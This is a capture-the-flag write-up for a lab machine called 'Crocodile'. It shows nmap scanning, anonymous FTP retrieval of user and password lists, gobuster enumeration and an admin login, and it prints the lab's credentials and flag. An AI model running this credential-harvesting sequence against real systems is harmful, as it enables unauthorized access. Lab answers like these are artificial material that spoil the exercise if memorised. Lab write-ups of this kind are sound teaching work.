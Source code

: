 ```yaml
---
layout: default
title: Crocodile
---
```


first, we do `nmap` using this command:
```bash
nmap -p- -sVC --min-rate=10000 $target
```

![nmap](image.png)

As we can see, there are 2 ports that are opened, port `21` for *ftp* and port `80` for *apache* server:
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.205
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix
```

As we can see, the scan told us that we can log to `ftp` anonymously, and that there are files there.

Let's connect using the user `anonymous`:
```bash
ftp anonymous@$target
```

And then, we'll get the files, using the command `get`:
```
ftp> get allowed.userlist
local: allowed.userlist remote: allowed.userlist
229 Entering Extended Passive Mode (|||41624|)
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
100% |********************************|    33      145.16 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.15 KiB/s)
ftp> get allowed.userlist.passwd
local: allowed.userlist.passwd remote: allowed.userlist.passwd
229 Entering Extended Passive Mode (|||48638|)
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
100% |********************************|    62      220.97 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.37 KiB/s)
```

when we open the files, we can find usernames:
```
aron
pwnmeow
egotisticalsw
admin
```

and also passwords:
```
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

okay, now let's use `gobuster` to find files in the website that is behind port `80`, the *apache* server. we use the `-x` to specify which filetypes we are looking for, in this case `php`, because we might find some login pages.
```bash
gobuster dir --url $target -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

![gobuster](image-1.png)

The `gobuster` shows us there is `/login.php` file, let's try the credentials we achieved to login to the page. 

Let's connect using the `admin` credentials, the password is `rKXM59ESxesUFHAd`.

![flag](image-2.png)

**Flag:*****`c7110277ac44d78b6a9fff2232434d16`***
